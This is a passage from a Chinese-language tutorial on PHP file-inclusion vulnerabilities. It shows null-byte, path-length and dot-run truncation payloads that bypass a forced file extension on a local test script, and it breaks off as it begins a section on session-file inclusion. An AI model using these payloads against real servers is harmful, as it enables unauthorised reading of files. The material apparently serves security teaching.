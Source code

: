 ```
(1)    magic_quotes_gpc=off
(2)    PHP<5.3.4
```

测试结果;

### Payload: 

```
http://127.0.0.1/test.php?filename=xiaohua.txt%00
```

通过%00截断了后面的.html扩展名过滤，成功读取了xiaohua.txt文件的内容

## 2.路径长度截断文件包含

操作系统存在最大路径长度的限制。可以输入超过最大路径长度的目录，这样系统就会将后面的路径丢弃，导致扩展名截断

### 漏洞利用条件

Windows下目录的最大路径256B

Linux下目录的最大路径长度为4096B
### Payload:

```
http://127.0.0.1/test.php?filename=xiaohua.txt/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```
执行完成后成功截断后面的.html扩展名，包含了xiaohua.txt文件

## 3.点号阶段文件包含

点号截断适用于Windows系统，当点号的长度大于256B时，就可以造成扩展名截断。
### Payload:

```
http://127.0.0.1/test.php?filename=xiaohua.txt....................................................................................................................................................................................................................................................................
```

成功使用.号截断后面的.html扩展名，包含了我们想要的文件。

# 四、Session文件包含

当可以获取Session文件的路径并且Session文件的内容可控时，就可以通过包含Session内容可控。

## 利用条件:
